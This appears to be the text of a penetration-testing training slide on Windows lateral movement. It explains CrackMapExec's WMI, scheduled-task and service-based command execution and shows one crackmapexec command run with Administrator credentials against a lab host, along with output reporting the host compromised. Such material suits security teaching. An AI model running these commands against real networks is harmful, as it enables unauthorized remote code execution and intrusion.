

# Lateral Movement
WMI, SMB & CME
CME attempts 3 different command execution methods:
wmiexec executes commands via WMI
atexec executes commands by scheduling a task with windows task scheduler
smbexec executes commands by creating and running a service
# crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
CME 192.168.10.11:445 WIN7BOX [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
CME 192.168.10.11:445 WIN7BOX [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
CME 192.168.10.11:445 WIN7BOX [+] Executed command
CME 192.168.10.11:445 WIN7BOX lab\administrator 06-05-2016 14:34:39 [*] KTHXBYE!
https://github.com/byt3bl33d3r/CrackMapExec